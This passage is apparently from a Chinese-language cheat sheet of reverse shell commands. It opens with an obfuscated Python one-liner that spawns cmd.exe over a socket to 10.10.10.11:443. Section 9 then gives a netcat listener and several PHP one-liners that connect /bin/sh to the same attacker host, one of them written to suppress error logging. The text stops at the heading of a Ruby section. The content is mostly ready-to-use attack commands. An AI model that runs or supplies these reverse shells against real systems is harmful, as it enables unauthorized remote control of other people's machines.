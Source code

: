 ```bash
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.10.10.11', 443)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

## 9、利用PHP脚本反弹shell
首先在本地监听TCP协议443端口

```bash
nc -lvp 443
```
然后在靶机上执行如下命令：

```bash
php -r '$sock=fsockopen("10.10.10.11",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```bash
php -r '$s=fsockopen("10.10.10.11",443);$proc=proc_open("/bin/sh -i", array(0=>$s, 1=>$s, 2=>$s),$pipes);'
```
```bash
php -r '$s=fsockopen("10.10.10.11",443);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
```
```bash
php -r '$s=fsockopen("10.10.10.11",443);`/bin/sh -i <&3 >&3 2>&3`;'
```
```bash
php -r '$s=fsockopen("10.10.10.11",443);system("/bin/sh -i <&3 >&3 2>&3");'
```
```bash
php -r '$s=fsockopen("10.10.10.11",443);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```
```bash
php -r '$s=\'127.0.0.1\';$p=443;@error_reporting(0);@ini_set("error_log",NULL);@ini_set("log_errors",0);@set_time_limit(0);umask(0);if($s=fsockopen($s,$p,$n,$n)){if($x=proc_open(\'/bin/sh$IFS-i\',array(array(\'pipe\',\'r\'),array(\'pipe\',\'w\'),array(\'pipe\',\'w\')),$p,getcwd())){stream_set_blocking($p[0],0);stream_set_blocking($p[1],0);stream_set_blocking($p[2],0);stream_set_blocking($s,0);while(true){if(feof($s))die(\'connection/closed\');if(feof($p[1]))die(\'shell/not/response\');$r=array($s,$p[1],$p[2]);stream_select($r,$n,$n,null);if(in_array($s,$r))fwrite($p[0],fread($s,1024));if(in_array($p[1],$r))fwrite($s,fread($p[1],1024));if(in_array($p[2],$r))fwrite($s,fread($p[2],1024));}fclose($p[0]);fclose($p[1]);fclose($p[2]);proc_close($x);}else{die("proc_open/disabled");}}else{die("not/connect");}'
```
## 10、利用Ruby脚本反弹shell
首先在本地监听TCP协议443端口
